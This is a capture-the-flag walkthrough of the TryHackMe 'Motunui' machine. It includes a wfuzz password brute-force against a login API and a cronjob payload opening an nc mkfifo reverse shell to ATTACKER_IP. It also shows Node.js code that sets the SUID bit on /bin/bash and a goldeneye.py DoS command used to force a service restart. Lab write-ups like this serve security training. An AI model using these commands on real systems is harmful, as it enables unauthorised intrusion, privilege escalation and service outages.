This box is rated hard difficulty on THM. It involves us grabbing a network packet capture file from SMB which holds a development virtual host inside of a PNG that was transported. On that host, we discover APIs that lead to getting a reverse shell on the machine by adding a cronjob. Once on the system, transferring a Cisco Packet Tracer file to our local machine lets us display the network's switch configuration that grants us a user's password. Finally our account has write access over an HTTPS service that can be leveraged into running malicious javascript as root to escalate privileges.

_Hack the island of Motunui._

## Scanning & Enumeration
As always, I begin with an Nmap scan agains the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80,139,445,3000,5000 -sCV 10.64.137.61 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-07 00:52 CST
Nmap scan report for 10.64.137.61
Host is up (0.044s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:f4:43:ac:39:fe:94:13:7a:ad:3d:e6:5f:b4:7e:71 (RSA)
|   256 49:8c:75:e1:78:e9:72:65:de:c9:14:74:0f:d4:1a:81 (ECDSA)
|_  256 0b:b6:27:f9:ad:ed:22:a9:90:ac:9e:b3:85:1b:aa:96 (ED25519)
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 174
|     Date: Sat, 07 Mar 2026 06:52:31 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /nice%20ports%2C/Tri%6Eity.txt%2ebak</pre>
|     </body>
|     </html>
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 07 Mar 2026 06:52:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 07 Mar 2026 06:52:30 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
5000/tcp open  ssl/http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| ssl-cert: Subject: organizationName=Motunui/stateOrProvinceName=Motunui/countryName=GB
| Not valid before: 2020-08-03T14:58:59
|_Not valid after:  2021-08-03T14:58:59
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|   http/1.1
|_  http/1.0
|_ssl-date: TLS randomness does not represent time
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: Host: MOTUNUI; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-03-07T06:52:50
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: MOTUNUI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: motunui
|   NetBIOS computer name: MOTUNUI\x00
|   Domain name: \x00
|   FQDN: motunui
|_  System time: 2026-03-07T06:52:50+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.97 seconds
```

There are six ports open:
- SSH on port 22
- An Apache web server on port 80
- Samba SMB on ports 139 & 445
- PPP on port 3000
- A Node.js web server on port 5000 (with SSL)

## SMB Pcap Share
Not a whole lot we can do on that version of OpenSSH without credentials so I fire up Ffuf to search for subdirectories and subdomains in the background before moving on. I'll enumerate SMB before heading over to the web servers as it's pretty quick.

```
nxc smb 10.64.137.61 -u 'Guest' -p '' --shares
```



As we can see, Guest authentication is enabled on the Samba shares and we have read permissions for "traces". There are only a few files in each of the directories, however they are all tickets and seem to be packet captures on the network. 

We can infer that these are probably meant for the IT team, however we can parse the network traffic in hopes of finding credentials sent whenever someone was authenticating. Netexec also gives us a name of Motunui for the box which we can add to our `/etc/hosts` file to prevent any errors down the line.

## Finding Vhost in PNG
Interestingly, opening up the pcaps in Wireshark show that only the `ticket_6746.pcapng` file from the `/maui` directory on the share has any packets at all. Looking through it shows a bunch of requests made over TLS, so a lot of it will be useless and the only thing that seemed interesting was a GET request to `/dashboard.png` on port 8000. Since this was transported without encryption, we can save the object to our own system and take a look at it. I do this by choosing **File -> Export Objects -> HTTP** and saving the `dashboard.png` object to my home directory.

Once we have it locally, displaying it with `xdg-open` shows a screenshot of someone's browser. Checking the URL discloses a development subdomain for the site which we can add to our `/etc/hosts` file to start enumeration.



Even though this is useful, I'm going to finish HTTP enumeration on the already exposed web servers to be thorough. Checking out the landing page on port 80 shows the default Apache HTML that is seen on fresh installs. My scans don't pick up anything else here, so I focus in on the Node.js site.



Hopping over to port 5000, making sure to specify that it's HTTPS, shows that it's using a self-signed certificate. Unfortunately, there is no information like alternative domain names or emails for us to gather. Checking out this landing page just displays a welcome text, meaning that enumeration will be key in expanding our attack surface.



## API Hacking
The only thing left is the dev virtual host found in the pcap, so that'll be our next destination. The landing page just displays a message saying that this Vhost is solely meant for the site's developers. 



Checking my scans shows one key difference from the previous one, the presence of `/docs` looks interesting considering developers store stuff here.

```
$ ffuf -u http://d3v3lopm3nt.motunui.thm/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://d3v3lopm3nt.motunui.thm/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

docs                    [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 44ms]
javascript              [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 43ms]
server-status           [Status: 403, Size: 288, Words: 20, Lines: 10, Duration: 44ms]
:: Progress: [220560/220560] :: Job [1/1] :: 925 req/sec :: Duration: [0:03:56] :: Errors: 0 ::
```

Navigating to that directory automatically redirects us to the README.md file which grants us a few other markdown documents to check out. The routes are intriguing in particular as they're for APIs in development.



Opening the file gives us two APIs for the service on port 3000 under the `/v2/` directory. The base URL for these are at `api.motunui.thm`, so I go ahead and add that to my hosts file as well.

## Brute Forcing User Login
The first is to handle logins which just hash the supplied credentials and check if they are valid, returning the standard responses. The second and third pertain to cronjobs for the current user, using a GET request to display them and a POST to add new jobs.

````
# Routes

The base URL for the api is `api.motunui.thm:3000/v2/`.

### `POST /login`
Returns the hash for the specified user to be used for authorisation.
#### Parameters
- `username`
- `password`
#### Response (200)
```js
{
 "hash": String()
}
```
#### Response (401)
```js
{
 "error": "invalid credentials"
}
```

### ðŸ" `GET /jobs`
Returns all the cron jobs running as the current user.
#### Parameters
- `hash`
#### Response (200)
```js
{
 "jobs": Array()
}
```
#### Response (403)
```js
{
 "error": "you are unauthorised to view this resource"
}
```

### ðŸ" `POST /jobs`
Creates a new cron job running as the current user.
#### Parameters
- `hash`
#### Response (201)
```js
{
 "job": String()
}
```
#### Response (401)
```js
{
 "error": "you are unauthorised to view this resource"
}
```
````

This means we can potentially add new cronjobs for the running user by making requests to this API. The only problem is that the parameter needed to use it is a hash. Because the base URL pointed towards v2, I tried reaching the older variants at v1 which returned a message telling us to get Maui to update the routes.



That gives us a username to play around with. Due to us having access to a login API and the need to get a valid hash in order to make new cronjobs, I'm going to brute force the password for the Maui user until we get a hit.

```
$ wfuzz -u http://api.motunui.thm:3000/v2/login -w /opt/SecLists/rockyou.txt -c -H 'Content-Type: application/json' -d '{"username": "maui","password":"FUZZ"}' --hh 31 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://api.motunui.thm:3000/v2/login
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                         
=====================================================================

000004346:   200        0 L      1 W        19 Ch       "[REDACTED]"
```

That returns a successful request pretty quick and we can now attempt to authenticate to the jobs API in order to schedule a malicious task. Note that this password doesn't work over SSH, because cracking it with `rockyou.txt` would mean that SSH is prone to brute-forcing too.

Since the login API returns a hash for the user's password, we can use it to grab the string in a Burp Suite or cURL request.



## Initial Foothold via Cronjob
In order for this to work, we'll need to make a POST request to `/v2/jobs` with a valid hash and an malicious job for our parameters. I'm going to schedule the server to execute a Netcat mkfifo reverse shell that points towards my attacking IP to get a foothold on the box. If you're unfamiliar with the crontabs syntax, refer to [this article](https://dev.to/aasik_20409e3305686b324ec/what-is-a-cronjob-and-understanding-syntax-2p6p).

Capturing a request to an API in Burp Suite and changing the method proved very useful when testing these as we can simply add new JSON data to the body.

```
{"hash":"[REDACTED]","job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 9001 >/tmp/f"}
```

After standing up a Netcat listener to catch the connection and waiting a minute for the cronjob to execute, we get a shell as `www-data`. I also upgrade and stabilize it with the standard `python3 import pty` method.



## Privilege Escalation
Now that we're on the filesystem, we can start internal enumeration to escalate privileges to other users. Checking the `/home` directory shows just one other user on the box named Moana, who has a note from root inside:

```
I know you've been on vacation and the last thing you want is me nagging you.

But will you please consider not using the same password for all services? It puts us all at risk.

I have started planning the new network design in packet tracer, and since you're 'the best engineer this island has seen', go find it and finish it.
```

### Password in Cisco Packet Tracer
Alright, if we can find out what Moana's password is for another service, we'll be able to use it over SSH to get a proper shell. We don't have much access with our current account and there were no other logins on the sites, so we won't be able to find hardcoded credentials or dump a database. The note also mentioned a new network design that Moana should be working on and I find a `.pkt` file inside of `/etc` while looking for files owned by her.

```
find / -type f -user moana 2>/dev/null
```

If you've taken a networking classes or studied for CCNA/Comptia Net+, you probably know that this is a file used for simulating networks in Cisco Packet Tracer. I'll transfer it to my local machine so we can open it up in hopes of discovering any secrets. I could not get an HTTP server or netcat file redirection to work for the life of me, so I just moved it to the development sites `/docs` directory and retrieved it from my browser.

You can download the Packet Tracer tool from their [resource hub](https://www.netacad.com/resources/lab-downloads), but will need to signup in order to do so.

Finally getting the tool up and running after making a new account with a temporary email reveals a very basic network topology of a PC and server connected to a switch which heads to a router. Since configurations are done through the switch's CLI, I use it to display the running config. That gives me plaintext credentials for Moana, who as we know, reuses the same password for every service. 

```
CTRL + Z (ends config mode if you're in it already)
en (switches us to privileges EXEC mode)
show run (displays the running-config for the switch)
```



Heading back over to the machine, I authenticate with these creds to get a proper shell on the box as Moana. At this point we can also grab the user flag under her home directory and look for routes to escalate privileges to root.

### Service Hijacking
I spend some time enumerating the filesystem for any writable files that were being executed but really couldn't find anything at all. The usual places like SUID bits set on important binaries, loose Sudo permissions, and cronjobs didn't return much either. I resorted to uploading [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) and [pspy](https://github.com/DominicBreuker/pspy) to discover certian things we could use in our endeavor towards root which showed that we had write access over the API service under `/etc/systemd`.



This is a dangerous thing to have since the contents of the file has a line that executes a command specifying where and how to start the service.

```
[Unit]
Description=The API for Motunui

[Service]
User=www-data
Group=www-data
ExecStart=/usr/bin/node /var/www/api.motunui.thm/server.js
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

Here I run into another road block, this service is still being ran by www-data as we can see from the output of `ps -aux | grep api`. Ideally we'd like the roles to be flipped and have the root user executing a service that a lower-level user is allowed to write to. 

Keeping with this same line of thinking, I check out the other services under `/etc/systemd` and find another one for the https.service:

```
[Unit]
Description=The HTTPS website for Motunui

[Service]
User=root
Group=root
ExecStart=/usr/bin/node /var/www/tls-html/server.js
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

This one is being executed by root user and is running the node binary on `/var/www/tls-html/server.js` which is coincidentally owned and writeable by `www-data`. That means if we we're to include malicious javascript in it, we may have a way to execute arbitrary code as root. I ended up writing a few lines that would set the SUID bit on Bash for us to spawn a root shell later.

```
const express = require('express');
const https = require('https');
const fs = require('fs');
const { exec } = require('child_process');

const app = express();

exec("chmod 4777 /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});

app.get('/', (req, res) => {
    res.send('welcome');
});
```

Before getting ahead of myself, I still needed a way to reload the daemon so that this service gets called. I was unable to find any ways to manually execute commands in order to do so, however we could just upload tools to generate absurd amounts of traffic that would crash the service.

For this step, I use the [goldeneye.py](https://github.com/bergercookie/hacking/blob/master/DDos_attack/goldeneye.py) script to carry out a DDoS attack so that the server would forcefully reload the https.service.

```
./goldeneye.py https:/localhost:5000 -w 200 -s 1000
```

Hitting the webpage returns an error saying that it's unable to connect which confirms that the denial of service is working.



Now we can just stop sending those requests and let the service start back up and run our malicious code. Giving it a second and displaying file permissions for the Bash binary show that it now has the SUID bit set and we can spawn a root shell.



Grabbing the final flag under the `/root` directory completes this challenge. Looking back on how others completed this box shows that I went down a very unintended route of abusing systemd misconfigurations. If we were to dig around the filesystem a bit more, there was a pre-master secret key which is used to decrypt TLS in the `/etc` directory. Supplying that to our Wireshark client allows us to read the HTTP traffic on the earlier packet capture which holds a POST request with root credentials.

[This article](https://www.comparitech.com/net-admin/decrypt-ssl-with-wireshark/?source=post_page-----a73032b26705---------------------------------------) explains how to decrypt SSL/TLS in Wireshark by using that key. I really enjoyed this box due to its very unique attack path, so thanks to [Jakeyee](https://tryhackme.com/p/jakeyee) for creating another awesome machine. I hope this was helpful to anyone following along or stuck and happy hacking!
